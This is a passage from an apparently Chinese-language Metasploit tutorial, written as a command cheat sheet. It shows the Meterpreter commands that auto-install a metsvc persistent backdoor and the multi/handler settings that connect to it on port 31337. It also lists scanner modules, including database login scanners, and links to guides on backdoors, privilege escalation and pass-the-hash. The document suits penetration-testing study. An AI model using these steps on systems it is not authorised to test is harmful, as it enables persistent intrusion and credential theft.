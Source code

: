 ```
run metsvc –h   # 查看帮助
run metsvc –A   #自动安装后门
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9060162a-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9060162a-998c-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9077bb4a-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9077bb4a-998c-1.png)

**连接后门**

```
msf > use exploit/multi/handler
msf > set payload windows/metsvc_bind_tcp
msf > set RHOST 192.168.159.144
msf > set LPORT 31337
msf > exploit
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-90b333b4-998c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-90b333b4-998c-1.png)

### 0x15. 扫描脚本

扫描的脚本位于：  
/usr/share/metasploit-framework/modules/auxiliary/scanner/  
扫描的脚本较多，仅列几个代表：

```
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/http/jboss_vulnscan
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/mysql/mysql_version
use auxiliary/scanner/oracle/oracle_login
```

**参考:**  
[https://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/](https://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/)  
[https://thehacktoday.com/metasploit-commands/](https://thehacktoday.com/metasploit-commands/)  
[https://www.offensive-security.com/metasploit-unleashed/fun-incognito/](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)  
[https://www.offensive-security.com/metasploit-unleashed/persistent-netcat-backdoor/](https://www.offensive-security.com/metasploit-unleashed/persistent-netcat-backdoor/)  
[https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)  
[http://www.hackingarticles.in/7-ways-to-privilege-escalation-of-windows-7-pc-bypass-uac/](http://www.hackingarticles.in/7-ways-to-privilege-escalation-of-windows-7-pc-bypass-uac/)  
[https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)  
[http://wooyun.jozxing.cc/static/drops/tips-2227.html](http://wooyun.jozxing.cc/static/drops/tips-2227.html)